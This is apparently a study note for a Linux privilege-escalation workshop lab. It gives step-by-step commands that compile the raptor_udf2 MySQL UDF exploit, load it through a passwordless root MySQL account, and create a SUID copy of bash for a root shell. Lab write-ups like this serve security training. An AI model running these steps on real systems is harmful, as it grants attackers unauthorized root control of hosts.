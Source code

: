 # Linux Privelege Escalation


Links:
https://medium.com/malware-buddy/security-infographics-9c4d3bd891ef#18dd
https://github.com/sagishahar/lpeworkshop


## 1. Service Exploits
### mysql 
Using the exploit from exploit db to get the rootshell. Since mysql is run by root without password where we can create the tables and run the `command` using function.
The MySQL service is running as root and the "root" user for the service does not have a password assigned. We can use a popular exploit that takes advantage of User Defined Functions (UDFs) to run system commands as root via the MySQL service.

Change into the /home/user/tools/mysql-udf directory:
```bash
root@gr4n173:~$ cd /home/user/tools/mysql-udf
```

Compile the `raptor_udf2.c` exploit code using the following commands:
```bash
root@gr4n173:~$ gcc -g -c raptor_udf2.c -fPIC
root@gr4n173:~$ gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc
```


Connect to the MySQL service as the root user with a blank password:
```bash
root@gr4n173:~$ mysql -u root
```

Execute the following commands on the MySQL shell to create a User Defined Function (UDF) `"do_system"` using our compiled exploit:
```bash
mysql> use mysql;
mysql> create table foo(line blob);
mysql> insert into foo values(load_file('/home/user/tools/mysql-udf/raptor_udf2.so'));
mysql> select * from foo into dumpfile '/usr/lib/mysql/plugin/raptor_udf2.so';
mysql> create function do_system returns integer soname 'raptor_udf2.so';
```


Use the function to copy /bin/bash to /tmp/rootbash and set the SUID permission:
```
mysql> select do_system('cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash');
```

Exit out of the MySQL shell (type `exit` or \q and press Enter) and run the /tmp/rootbash executable with -p to gain a shell running with root privileges:
```bash
root@gr4n173:~$ /tmp/rootbash -p
```

